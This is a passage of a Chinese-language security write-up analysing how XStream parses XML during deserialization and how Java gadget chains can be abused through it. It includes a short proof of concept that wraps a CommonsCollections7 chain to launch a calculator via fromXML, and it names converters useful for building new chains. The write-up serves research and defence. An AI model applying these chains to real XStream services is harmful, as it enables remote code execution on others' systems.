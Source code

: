 可以看到Input会被解析成一个个类似TC_OBJECT的数据结构，Xstream 大致来说是通过CustomObjectInputStream实现这种解析xml结构的。

需要注意的是CustomObjectInputStream.StreamCallback 接口，在ExternalizableConverter和SerializableConverter 有不同的实现，以SerializableConverter为例：

```java
CustomObjectInputStream.StreamCallback callback = new CustomObjectInputStream.StreamCallback() {
    public Object readFromStream() {
      reader.moveDown();
      Class type = HierarchicalStreams.readClassType(reader, SerializableConverter.this.mapper);
      Object value = context.convertAnother(result, type);
      reader.moveUp();
      return value;
    }
```

[](#2-反序列化利用 "2. 反序列化利用")2\. 反序列化利用
-----------------------------------

引用Wh1t3p1g师傅的解释

> XStream反序列化同fastjson这种不一样的地方是fastjson会在反序列化的时候主动去调用getters和setters，而XStream的反序列化过程中赋值都由Java的反射机制来完成，所以并没有这样主动调用的特性。

> 但是还有一种利用方式，回想一下，在几条常规的java反序列化利用链上，都利用了HashMap、PriorityQueue等对象（key不可重复等特性）会自动去调用hashCode、equal、compareTo等这种函数。

讲的很明白了，强调一点：**java反序列化利用链，类必须要可Serializable，但是在Xstream上，并不是必须**，这里是一切利用链的根本原因。

1.  原Java反序列化链当然可以用
2.  寻找新的HashMap、PriorityQueue

### [](#2-1-原Java反序列化链 "2.1 原Java反序列化链")2.1 原Java反序列化链

这里贴一下基于cc7的poc

```java
public class CC7 {
    @Test
    public void ser() throws Exception {
        XStream xStream = new XStream();
        Object calc = new CommonsCollections7().getObject("open -a calculator.app");
        String xml = xStream.toXML(calc);
        System.out.println(xml);

        Object cc7 = xStream.fromXML(xml);
    }
}
```

### [](#2-2-寻找新的HashMap、PriorityQueue等 "2.2 寻找新的HashMap、PriorityQueue等")2.2 寻找新的HashMap、PriorityQueue等

Wh1t3p1g师傅文章中解释了这三个特殊的类

1.  MapConverter，会调用hashCode
2.  TreeSet/TreeMapConverter，会调用compareTo
3.  DynamicProxyConverter，创建了Proxy instance，InvocationHandler可控
